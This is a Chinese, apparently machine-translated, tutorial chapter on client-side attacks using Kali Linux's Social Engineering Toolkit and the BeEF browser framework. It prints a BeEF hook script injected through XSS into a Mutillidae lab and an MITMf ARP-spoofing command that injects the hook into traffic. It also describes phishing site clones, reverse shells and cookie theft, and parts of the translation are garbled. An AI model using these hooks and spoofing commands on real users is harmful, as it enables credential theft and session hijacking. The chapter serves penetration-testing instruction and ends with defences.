









# 十八、通过攻击框架利用客户端

尽管企业一直在投资技术和技能以确保其业务安全，但它们仍然成功地受到攻击。社会工程是一种技术，它甚至可以渗透到最安全的环境中。脆弱的员工往往被选中来规避组织可能部署的各种防御措施。社会工程和客户端攻击向量是被称为**高级持续威胁**（**APT**的新一代攻击的主要驱动力。以特定组织的用户为目标通常被用作进一步进入组织内部的踏脚石，并在最近发现的所有主要 APT 中使用。

因为在安全方面，你的力量只和你最薄弱的环节一样强大，员工已经成为执行攻击的完美目标。社会工程攻击为您在执行攻击时投入的时间和资源提供了巨大的价值。社会工程攻击的一个简单例子是打电话给作为银行代表的受害者，并说服用户向其在线帐户透露密码。

对于黑帽攻击者来说，黑客正在变成一种商业行为，而社会工程攻击为他们提供了巨大的投资回报。构建漏洞攻击或破解密码需要大量时间，对于攻击者来说实际上是不可行的。另一方面，使用矛式网络钓鱼活动的社会工程攻击可以让攻击者直接访问机密数据。

当通常的社会工程技术无法吸引用户时，您将不得不设计一种客户端攻击和网络钓鱼技术。客户端攻击利用客户端软件中的漏洞进行攻击，受害者使用客户端软件与 web 服务器交互，例如 web 浏览器或其用于与攻击者作为网络钓鱼活动的一部分发送的文件交互的任何应用。

我们将讨论使用 Kali Linux 中的工具执行客户端攻击和社会工程攻击的几种技术。在本章中，我们将介绍以下主题：

*   社会工程攻击
*   社会工程工具包
*   矛式网络钓鱼和基于网站的攻击
*   浏览器利用框架
*   牛肉模块
*   牛肉和米饭

# 社会工程攻击

社会工程是一项高度依赖人类的技术。在其最简单的形式中，它使用非技术性的方法来规避系统的安全性。攻击的成功在很大程度上取决于攻击者收集的有关受害者的信息。

协助信息收集的各种资源包括：

*   社交网站
*   线上论坛
*   公司网站
*   与受害者互动

模仿是社会工程攻击最常见、最有效的形式。在这里，攻击者假装是其他人并试图获得受害者的信任。攻击者执行侦察并识别与受害者相关的有价值信息，这有助于与受害者进行交互。

模拟的示例描述如下：

1.  攻击者使用公开可用的资源识别受害者并收集有关他们的信息。
2.  攻击者识别受害者可能在其 Facebook 个人资料页面上发布的信息。他们获得了诸如出生日期和年份、他就读的学校以及最喜欢的电影等重要细节。
3.  在受害者的 LinkedIn 个人资料页面上，攻击者了解受害者所在的组织。攻击者还可以在其 LinkedIn 个人资料页面上找到受害者的官方电子邮件地址。
4.  接下来，攻击者会找到受害者所在组织的服务台的电话号码。可以直接从组织外部调用此号码。
5.  攻击者打电话给服务台，自信地与假装是受害者的服务台代理进行交互，并通知代理他忘记了其官方邮箱中的密码，并请求重置密码。
6.  代理询问一些基本问题，如出生日期和电子邮件地址，生成新的临时密码，并与假装为实际用户的攻击者共享。

通常的社会工程攻击可能并不总是成功的，因为员工经常接受处理此类事件的培训，并且经常被建议不要在社交网站上分享自己的敏感信息。

计算机已成为与外界沟通的重要手段，并为攻击者提供了一个有吸引力的选择，以接触潜在的受害者。使用计算机发动社会工程攻击的一些方式如下：

*   **网络钓鱼电子邮件**：攻击者垃圾邮箱一直是欺骗用户的有效方式。电子邮件的设计使其看起来合法。垃圾邮件发送者使用的电子邮件地址与合法电子邮件地址非常相似，只有仔细查看才能识别差异。除此之外，电子邮件还可能包含一些吸引人的短语，如紧急注意或被害人可能感兴趣的内容。
*   **广告软件和恶意软件**：攻击者采用的一种常见技术是诱骗用户安装包含广告软件和恶意软件的软件。不知道计算机技术细节的用户可以很容易地通过弹出消息来下载和安装带有恶意软件的软件。
*   **钓鱼网站**：在这种技术中，攻击者克隆原始网站并注册一个具有类似名称的域名，以复制原始网站。访问克隆网站的受害者无法区分这两个网站，并假设它是原始网站进行交互。攻击者的目的是窃取登录凭据。

如前一节所示，计算机是社会工程攻击的主要目标。Kali Linux 有几个工具可以帮助执行这些技术。

# 社会工程工具包

**社会工程工具包**（**集合**）是众所周知的在 Kali 2.0 中是一个菜单驱动的工具，用于构建不同的客户端技巧。在 Kali 中安装了 Linux 版本 6.5。它包括可以从同一界面部署的各种社会工程攻击选项。它是用 Python 编写的，菜单驱动的功能使构建攻击变得更容易。社会工程工具包有助于以更少的努力和时间执行复杂的攻击，还允许我们以实际的方式测试各种社会工程场景。以前不可能及时执行这些任务。

社会工程工具包可在 Kali Linux 2.0 的**应用****利用工具**中找到。终端窗口打开后，将显示以下屏幕截图中所示的菜单。终端提示显示**set**，等待您的输入：



初始屏幕显示六个选项。**社会工程攻击**选项是我们使用最多的选项。第二个选项集成了一些来自快速跟踪工具的攻击。您还可以编写自己的自定义模块，并使用**第三方模块**选项将其与社会工程工具包集成。

选择**社会工程攻击**选项后，您将看到一个菜单，列出可以执行的各种类型的社会工程攻击，如以下屏幕截图所示：


# 鱼叉式网络钓鱼攻击

此模块允许您创建针对特定受害者的定制电子邮件。此模块的目的是将有效负载集成到附件中，并通过伪造的电子邮件将其发送给受害者。

您需要选择第二个选项，即**创建文件格式负载**，这将引导您选择要利用的特定文件格式。整个菜单简单易懂，不言自明：



接下来，选择要使用的特定有效负载；它将提示您选择在成功利用受害者机器时要执行的命令外壳的类型。反向 TCP 外壳和 MeterMeter 反向 TCP 外壳是最有用的，因为出站流量更可能被允许通过客户端的防火墙：


当您继续选择一些其他选项时，social engineering toolkit 将提示您选择一个预构建的电子邮件模板，或者选择一个选项来自行构建电子邮件内容。如果在创建电子邮件时字数不足，预定义的电子邮件模板将非常有用。

在选择预定义模板时要小心，因为反垃圾邮件系统已调整为过滤这些模板的内容。

在最后阶段，您需要选择一个公共邮件服务器，如 Gmail，或者使用您自己的邮件服务器。选择自己的邮件服务器有一个明显的优势：它允许您伪造电子邮件地址，如果受害者的邮件服务器不执行反向 DNS 查找，则电子邮件肯定会命中受害者的邮箱。

如果您想使用 Kali Linux 作为您的邮件服务器，您需要安装 sendmail 并在`set_config`文件中将**sendmail**选项更改为上的**。`set_config`文件位于`/usr/share/set/config/`目录中，是社会工程工具包使用的配置文件：**



通过将**电子邮件提供程序**选项更改为 Hotmail 或 Yahoo！也可以通过其他电子邮件提供程序发送电子邮件！。

通过自托管邮件服务器发送电子邮件时的各种选项显示在以下屏幕截图中：



# 网站攻击

使用网站发起社会工程攻击，可使攻击针对大量用户。社会工程工具包中的网站攻击模块包括使用网站构建社会工程攻击的各种方法。

社会工程工具包包含以下方法：

*   Java 小程序攻击
*   凭证收割机攻击
*   网络劫持攻击
*   Metasploit 浏览器漏洞
*   禁忌攻击

## Java 小程序攻击

Java 小程序攻击方法会创建一个感染了恶意负载的 Java 小程序。有效载荷是一个外壳或流量计代码，提供外壳对受害者机器的访问。要构建一个完整的攻击，如果你想克隆一个你知道受害者会信任并花时间浏览的网站，该工具将提示。然后将小程序加载到克隆的网站上。

### 注

网站克隆是复制原始网站的内容和格式以创建外观相似的网页的过程。

重要的一步是诱使用户访问将加载小程序并向攻击者提供 shell 访问的网站。URL shortener 服务可用于隐藏 URL 或注册类似域名以欺骗用户。

在这种方法中，我们没有利用任何客户端缺陷，而是诱使用户浏览加载恶意 Java 小程序的网站。由于小程序没有受信任的证书颁发机构签名，因此当小程序加载时，它将显示一条警告，大多数用户都会忽略该警告并继续。

Java 小程序攻击方法已在各种 web 浏览器和操作系统上成功测试。

加载 Java 小程序时将显示以下对话框：



## 凭证收割机攻击

窃取用户的凭证一直以来都是攻击者非常感兴趣的行为。使用凭据收割机攻击方法，您可以克隆需要用户登录的网站，例如 Facebook 或 Twitter 等社交网站。

与其他攻击方法一样，您必须在具有类似名称的域上托管使用社会工程工具包创建的克隆网站，以增加用户交互和浏览网站的可能性。

用户访问该网站时假设该网站是真实的，并键入由攻击者捕获的凭据，这些凭据可用于模拟受害者。社会工程工具通过捕获网站上的所有`POST`请求来检索用户名和密码，并从中识别可预测的字段名。

捕获的数据保存在`/var/www`目录中，其内容如下图所示：



所有社会工程攻击的成功取决于用户交互水平。

## 网络劫持攻击

网络劫持攻击类似于凭证获取攻击，但有一些额外的技巧。使用此方法，攻击者会创建一个虚假网站，当用户单击链接时，会出现一个网页，其中显示一条消息，说明网站已被移动，您需要单击包含网站链接的消息，如以下屏幕截图所示：


如果用户将鼠标悬停在消息上方，则该网站的正确 URL 将显示在底部的状态栏中。但一旦用户点击该消息，浏览器就会被重定向到社交工程工具包克隆的假网站。

构建 web 劫持攻击的步骤类似于凭证获取攻击。社会工程工具包中的这些模块应用于向用户传授培训，并教育他们如何应对此类攻击。

## Metasploit 浏览器漏洞

通过集成社会工程工具包和 Metasploit，您可以直接从 SET 的界面使用 Metasploit 中提供的客户端漏洞。Metasploit 浏览器攻击方法是网站攻击模块的一部分。

使用此攻击模块，您可以利用以下列出的多个客户端软件获得受害者计算机上的 shell 访问权限。例如，恶意网站可以利用 Microsoft Internet Explorer 中的内存损坏漏洞，并向其中注入外壳。类似地，其他客户端软件也可以使用恶意文件进行攻击：

*   Microsoft Internet explorer
*   JAVA
*   Adobe Flash 播放器
*   苹果快速时间
*   火狐

Metasploit 对客户端软件有多个漏洞利用。使用恶意网站，您可以利用这些软件中的漏洞，向最终用户的机器中注入外壳。恶意网站可以通过使用预构建的模板创建，也可以从可以引诱用户的实时网站克隆。除了利用漏洞，您还必须选择有效负载。反向 TCP 外壳是推荐的有效负载，因为客户端将创建到服务器的出站连接，这有助于规避任何防火墙规则。选择利用漏洞后，有效负载集将询问以下屏幕截图所示的一些详细信息。为了使反向 shell 连接回攻击者的机器，您需要在配置攻击时指定 Kali Linux 机器的 IP 地址。如果 Kali Linux 位于防火墙后面，并且实现了 NAT，那么您还必须提供公共 IP 地址，以便受害者可以访问克隆网站，如图所示。此外，请确保正确配置了端口转发和 NAT 规则：



## 禁忌攻击

所有的主要 web 浏览器都引入了选项卡式浏览功能，允许用户在一个浏览器窗口中打开多个网页。浏览器窗口的每个部分称为选项卡。当选项卡未处于焦点且用户正在其他选项卡中查看另一个网页时，tabnabbing 攻击利用此功能在浏览器上打开假网站。恶意页面上的 JavaScript 将自身重定向到克隆的网站。

当您想要将用户重定向到您控制的恶意网站时，会部署选项卡式攻击。此网站通常是用户使用的流行网站的克隆网页。

以下是我们构建攻击的步骤：

1.  你需要克隆一个网站来吸引用户，这可以通过社交工程工具包界面完成。
2.  Next you need to trick the user into opening the URL. When the URL is clicked, the following web page shows up asking the user to wait until the web page is loaded:

    

3.  As soon as the user switches to another tab, the web page is redirected to the fake website that you created. If you view the source of this URL, you will see JavaScript is used to perform the redirect when the tab is not in focus. Once the cloned website opens and the user moves back to the tab, they might assume the website to be the real one. The attacker can clone the login page of the web page to steal the credentials:

    

# 浏览器利用框架

最终用户被视为高价值目标，也容易通过社会工程和鱼叉式网络钓鱼活动受到攻击。正如我们前面所讨论的，客户端软件与社会工程攻击相结合时，呈现出一种有吸引力的攻击表面。Web 浏览器是应用最广泛的客户端软件之一。你甚至找不到一个组织不使用网络浏览器进行日常活动。Web 浏览器用于各种各样的活动，其中一些活动非常关键。详情如下:

*   许多设备/装置的管理现已从以前使用的 think 客户端转移到 web 浏览器
*   云基础设施中管理的一切都是使用 web 浏览器完成的
*   网上银行的电子邮件账户都依赖于网络浏览器，使大量用户可以访问其产品

在[第 6 章](16.html#aid-37UDA1 "Chapter 6. Exploiting Clients Using XSS and CSRF Flaws")中*使用 XSS 和 CSRF 漏洞*攻击客户端，我们了解了跨站点脚本漏洞，攻击者可以在其中注入 JavaScript 并从客户端窃取信息。随着**浏览器利用框架**（**BeEF**）的出现，利用跨站点脚本漏洞变得更加容易和有趣。此外，利用 XSS 缺陷，该工具还可以让 web 浏览器使用注入的 JavaScript 攻击其他网站。

## 介绍牛肉

BeEF 是一个类似于 Metasploit 的框架，在该框架中，我们可以使用不同的模块，这取决于我们试图实现的目标。它是一个平台，您可以使用它直接生成有效负载并将其发送到目标 web 浏览器。牛肉攻击工具是用 Ruby 编程语言编写的。使 BeEF 成为社交工程攻击如此吸引人的工具的特性是：不同类型的模块、易于使用的界面，以及它能够使用称为钩子的东西同时控制许多 web 浏览器。

JavaScript 是 web 浏览器中使用的主要客户端脚本语言，BeEF 使用它将客户端 web 浏览器连接到运行 BeEF 的服务器。牛肉由两个主要成分组成：

*   管理挂接客户端的服务器应用，也称为僵尸
*   在受害者的 web 浏览器中运行的 JavaScript 挂钩

钩子是托管在服务器上的 JavaScript，在 web 浏览器下载的客户端代码中引用，并用作命令和控制通道。一旦 web 浏览器处理了钩子，它就会拨回 BeEF 服务器，并在 BeEF 服务器和客户端之间传递基于 JavaScript 的命令。

下面的代码中显示了一个钩子示例。此代码插入到由 web 浏览器下载的 HTML 文件中：

```
<script type="text/javascript" src="http://<BeEF_server_IP>:3000/hook.js"></script>
```

## 牛钩注射液

钩子可以通过以下方式注入浏览器：

*   攻击者可以利用 web 应用上的 XSS 漏洞并通过该漏洞注入牛肉钩。与易受攻击网站交互的最终用户的 web 浏览器将从 BeEF 服务器下载 Javascript 并与之挂钩。
*   另一种方法是攻击者克隆流行网站或用户经常访问的网站，并将牛肉钩注入 HTML 文件。任何与该网站互动的用户都会上瘾。这种方法需要成功的社会工程攻击，这将诱使用户访问恶意网站。
*   一种不太常见的方法是使用 MITM 攻击将钩子注入浏览器。Shank 和 MITMf 是两种可用于实现此目的的工具。为了使用此方法，攻击者需要控制客户端和服务器之间的网络。

BeEF 工具的一些功能和用途如下所示：

*   端口扫描器
*   键盘记录器
*   浏览器信息收集
*   绑壳
*   网络映射
*   Metasploit 集成

让我们从工具开始。在**应用****利用工具**中找到。图形用户界面将在 web 浏览器中打开。要从 bash shell 启动该工具，请导航到`/usr/share/beef-xss`目录并启动 BeEf 可执行文件。bash shell 将显示钩子 URL、UI URL 和其他有用信息。

### 注

登录 web 界面的默认用户名和密码为`beef`。

登录应用后，您将看到一个主页，让您开始使用该工具。BeEF 附带了一个演示页面，您可以在其中指向浏览器并检查 BeEF 的各种功能。演示页面的 URL 为`http://<IP_BeEF_Server>:3000/demos/basic.html`。

BeEF 面板的左侧窗格显示钩住的浏览器和关于钩住的客户端的其他相关信息；联机节点将列出当前处于活动状态的浏览器。右侧的窗格由工具提供的不同选项组成：



在右侧窗格中，模块和 BeEF 收集的信息被分为多个选项卡，如下所述：

*   **详情**：此页签显示牛肉使用钩子采集的所有信息。它显示浏览器版本和基础操作系统。该工具还可以识别是否安装了其他浏览器组件，如 Flash、VBScript、ActiveX 和媒体播放器插件。所有这些信息都是通过使用 JavaScript 钩子收集的。
*   **日志**：此部分保存浏览器上发生的所有活动。当浏览器失去焦点并重新获得焦点时，它将记录日志。它将捕捉浏览器上的所有鼠标点击以及用户在浏览器中键入的文本。
*   **Commands**: This section has all the juicy and attractive modules listed in a tree. Each module will have colored icons beside it, which indicate the following:

    *   绿色表示模块将针对目标工作，并对最终用户不可见。
    *   红色表示模块无法针对目标工作。虽然我看到一些模块即使图标颜色是红色也能工作，所以尝试一下也没有什么坏处。
    *   橙色表示模块活动将对用户可见。有部分模块会显示一个弹出框，请求用户许可；一个例子是运行网络摄像头模块。
    *   灰色表示该模块尚未针对挂接的浏览器进行测试。

    **命令**部分中的模块可分为以下几类：

    *   浏览器侦察
    *   利用模块
    *   主机信息收集
    *   持久性模块
    *   网络侦察

### 浏览器侦察

此类别中的模块可用于提取有关 web 浏览器的广泛信息。模块用于识别受害者机器上安装的不同软件，如 MS Office、QuickTime 和 VLC 等。有一个单独的模块用于检测配置的默认 web 浏览器。然后，这些信息可用于利用针对浏览器定制的进一步漏洞利用。

您需要选择模块，点击右下角的**执行**按钮。在以下屏幕截图中，发现被利用的浏览器安装了 Silverlight：


我们可以使用**获取 Cookie**模块从浏览器中窃取会话 Cookie，该浏览器利用 XSS 漏洞进行连接。也可以使用**获取表单值**模块捕获用户在表单字段中输入的数据。

在下面的截图中，当用户输入域名`www.google.com`时，该域名被捕获，表单字段之一：


### 利用模块

除了信息收集模块外，BeEF 还为特定设备提供了一些很酷的漏洞利用模块。如以下屏幕截图所示，有用于 NAS 设备、路由器和交换机的模块。这些模块可用于利用这些设备 web 界面中公开披露的 XSS 和 CSRF 缺陷，然后可用于更改这些设备的管理员密码和配置：


### 主机信息采集

攻击者的最终目标是完全控制受害者的计算机。主机部分列出了一些可能有用的模块。使用**获取地理位置**和**获取物理位置**模块，您可以了解机器的公共 IP 地址和物理位置。**检测虚拟机**模块可以识别机器是物理机器还是虚拟主机。

**获取剪贴板**模块捕获剪贴板中的数据，并将其显示在结果窗格中。此模块将提示用户允许访问剪贴板，因此它对用户不是完全透明的。警报框的图像显示在以下屏幕截图中：


### 持久化模块

在您执行模块时，让用户浏览网站可能并不总是成功的。一旦用户导航到另一个网站或关闭浏览器，钩子就会丢失，您将无法再执行任何模块。创建一个真正有吸引力的网站，吸引用户更长时间是一个选择。BeEF 的模块可能会帮助您实现可能会激怒用户的持久性：

*   **确认关闭页签**：当用户尝试关闭页签时，系统会提示用户。如果用户点击**是**，将再次显示相同的对话框。
*   **在**下创建弹出窗口：此模块创建一个弹出窗口，从而创建到 BeEF 服务器的持久连接。

### 网络侦察

此类模块可用于攻击与受害者在同一网络上的其他机器。部分模块如下所示：

*   **DOSer**：该模块向目标 web 服务器发出无限数量的`GET`和`POST`请求，从而降低其速度
*   **检测 Tor**：此模块检测受害者是否使用 Tor 上网
*   **DNS 枚举**：此模块通过字典发现网络上的主机
*   **Ping-Sweep**：此模块识别网络上的在线主机
*   **端口扫描器**：此模块扫描指定目标上打开的端口

使用网络侦察模块，您只需使用连接到 web 浏览器的 JavaScript 即可创建网络地图。

### 协议间利用与通信

**协议间利用与通信**（**IPEC**节点）中列出了另一套模块，可用于利用使用 HTTP 以外不同协议的应用。协议间通信是应用使用不同协议交换数据的过程。IPEC 中的模块旨在通过`POST`方法提交恶意负载，从而利用易受攻击的非 HTTP 应用。会话控制和协议的其他复杂组件由 BeEF 模块负责。

第一个模块是**跨站点传真**（**XSF**模块，可以通过您控制的僵尸发送协议间命令，通过易受攻击的活动传真服务器发送传真。您需要指定传真服务器的 IP 地址、端口号和收件人传真号，如以下屏幕截图所示：


IPEC 中一个有趣的模块是 Bindshell（Windows），它允许您通过利用的 web 浏览器连接到侦听 Windows shell。web 浏览器就像 IRC 通道一样，在 BeEF 服务器和 shell 之间传递命令。这个模块在一个场景中非常有用，在这个场景中，您已经有一台受损的机器生成了一个 shell，但是无法从 internet 访问它，并且不可能使用反向 shell。您可以使用钩住的浏览器通过 HTTP 协议将您的命令中继到受损机器。

## 使用 BeEF 利用 mutillidae XSS 缺陷

Mutillidae 是一个易受攻击的 web 应用，包含在我们在[第 4 章](14.html#aid-2QJ5E1 "Chapter 4. Major Flaws in Web Applications")中安装的 OWASP 易受攻击 web 应用虚拟机中，*web 应用中的主要缺陷*。

我们将使用 BeEF 利用 mutillidae web 应用中的 XSS 漏洞。在我的测试实验室中，我已经在一台 IP 地址为`192.168.1.72`的机器上安装了 mutillidae。XSS 漏洞的 URL 位于**OWASP Top 10**|**A2–跨站点脚本（XSS）**|**BeEF framework targets**|**DNS 查找**。

我们已经知道，**主机名/IP**字段容易受到 as XSS 漏洞的攻击。然后将 BeEF 钩子注入字段，该字段将从 BeEF 服务器将 JavaScript 下载到 web 浏览器上。一旦 web 浏览器连接到 BeEF 服务器，我们就可以执行命令模块并执行信息收集。

下面是要注入的代码。IP 地址将根据您的实验室设置而更改：

```
<script src="http://192.168.1.70:3000/hook.js"></script>
```

在下面的屏幕截图中，我们可以看到注入的钩子：


在 BeEF 服务器上，您将在在线浏览器窗格中看到受害者的 IP 地址。XSS 攻击最常见的用途是窃取 cookie，以便执行会话劫持攻击。使用**获取 Cookie**模块，我们可以提取分配给用户会话的 Cookie，而无需编写任何 JavaScript。选择**获取 Cookie**模块，点击右下角**执行**按钮。正如您在以下屏幕截图中所看到的，有两个 cookie 分配给用户会话：一个由 mutillidae web 服务器分配，名称为`PHPSESSID`，另一个由 BeEF 服务器本身分配，以标识 web 浏览器。

当**Set Cookie**响应头中包含**HttpOnly**标志时，可以帮助降低客户端 JavaScript 访问 Cookie 的风险：


接下来，我们将在与挂接浏览器位于同一网络上的机器上运行端口扫描。**端口扫描器**模块列在**网络**部分。**端口扫描仪**模块的配置选项不言自明。

如以下屏幕截图所示，您可以指定要扫描的端口，并为打开和关闭的端口定义超时：


端口扫描完成后的输出显示在**命令结果**窗格中，如下图所示：


## 使用 MITM 注射牛肉钩

我们前面讨论过的注射牛肉钩的第三种方法是通过 MITM 攻击。只有当您控制了受害者和服务器之间的网络时，才可能发生 MITM 攻击。一旦成功，它可以用来利用大量的客户端，并且可以在用户试图访问的每个网站中注入牛肉钩。

我们将使用 MITMf 工具通过 ARP 欺骗技术执行中间人攻击，该工具还包括插件，可以将 JavaScript 钩子 URL 注入通过它的每个网站请求。

ARP 欺骗是一种技术，攻击者利用伪造的 ARP 映射毒害计算机的 ARP 缓存，以操纵两台主机之间的流量。有关 ARP 欺骗攻击的详细说明，请参见[http://www.arppoisoning.com/how-does-arp-poisoning-work/](http://www.arppoisoning.com/how-does-arp-poisoning-work/) 。

MITMf 工具不随 Kali Linux 一起安装。必须使用以下命令单独安装：

```
apt-get install mitmf

```

确保在`/etc/apt/`目录中的`sources.list`文件中设置了正确的存储库，因为安装该工具需要一些额外的文件来解决依赖性问题，可以在以下链接中找到这些文件：

*   `deb http://http.kali.org/kali kali main non-free contrib`
*   `deb http://security.kali.org/kali-security kali/updates main contrib non-free`
*   `deb-src http://http.kali.org/kali kali main non-free contrib`
*   `deb-src http://security.kali.org/kali-security kali/updates main contrib non-free`

安装该工具后，确定受害者的 IP 地址和默认网关。Kali Linux 机器将充当中间人，并重定向来自两个端点的流量。

完整的命令将执行 ARP 欺骗，并将 MITMf 配置为注入 URL，如下所示：

```
mitmf –i eth0 --arp --spoof --gateway 192.168.1.123 --target 192.168.1.22 --inject --js-url http://192.168.1.70:3000/hook.js

```

此命令将生成以下输出：



只要客户端发送一个网页请求，您就会看到工具界面上生成的一些活动。在 BeEF UI 面板中，您会发现浏览器处于联机状态，随时可以接管。通过 MITM 方法，您可以在每个网站中注入 BeEF-hook，您可以认为，当代码在从服务器返回的途中拦截流量时，会注入代码，而客户端浏览器无法识别注入的数据。

识别客户端 HTML 文件中是否注入了牛肉钩的唯一方法是在浏览器中按*Ctrl*+*U*查看来源。当代码在文本编辑器中打开时，搜索关键字`hook.js`（或仔细查看整个文件）。您肯定会在其中找到注入的 JavaScript URL。

BeEF 执行大部分攻击的方式是躲在引擎盖下，没有终端用户的大量交互和参与。Web 浏览器是一种广泛使用的软件，每天都会发现其中的漏洞，这只会增加此工具在您军械库中的重要性。BeEF 中包含的大多数攻击模块都使用合法的 JavaScript 来查询 web 浏览器和操作系统。尽管 Chrome 和 Internet Explorer 都有反 XSS 过滤器，但它们并不是抵御此类攻击的万无一失的防御措施。

阻止这些攻击的方法是教育用户上网时要小心，避免访问可疑网站。这些攻击大多是通过网络钓鱼活动开始的，试图诱使用户访问注射了牛肉钩的网站。您还需要清理您组织的网站上的所有 XSS 和注入缺陷，否则您自己的网站将被注入牛肉钩。对于基于 MITM 的攻击，请确保网络层得到了适当的保护，否则您将面临比使用牛肉钩进行网站注射更大的问题。

# 总结

在本章中，我们首先研究了各种流行的社会工程攻击。我们看到了通过社交攻击用户是多么容易被利用。然后，我们讨论了社会工程工具包和其中的不同模块，涵盖了各种各样的社会攻击。接下来，我们深入研究了浏览器攻击工具包，了解了如何使用该工具包攻击 XSS 漏洞，而无需编写一行 JavaScript。我们涵盖了 BeEF 的所有主要模块，并确定了不同的使用方法。

在下一章中，我们将讨论一种称为 AJAX 的新 web 技术以及与之相关的安全问题。